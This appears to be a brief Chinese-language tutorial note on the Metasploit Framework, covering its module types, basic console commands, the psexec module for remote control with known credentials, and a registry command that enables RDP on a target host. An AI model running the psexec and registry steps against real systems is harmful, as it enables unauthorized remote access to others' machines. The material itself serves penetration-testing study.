

# MSF

全称：`Metasploit Framework` ，以下简称MSF

开源渗透测试平台

能识别、验证、利用系统中的漏洞

模块化的框架


漏洞利用

辅助模块：扫描、嗅探、网络发现

Payloads：生成载荷

后渗透：维权、提权


## 启动信息解读：



- 2437个自带的攻击方式
- 1471个自带的payloads脚本


## 常见用法

启动

```shell
msfconsole
```


搜索漏洞模块

```
search [关键词]
```


使用漏洞模块

```
use [模块名]
```


进到模块之后不知道配置：

```
options
```


设置目标

```
set RHOSTS [目标ip]
set RPORT [目标端口]
```


运行攻击

```
exploit
```


## psexec模块远控

知道账号密码前提下远程控制

```
use exploit/windows/smb/psexec

set rhost [ip]
set smbpass [密码]
set smbuser [账号]

run
```


开放对方3389端口，然后远程桌面连接：

```
shell

reg add "HKLM\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```


kali远控可以下载：

```
sudo apt install remmia
```

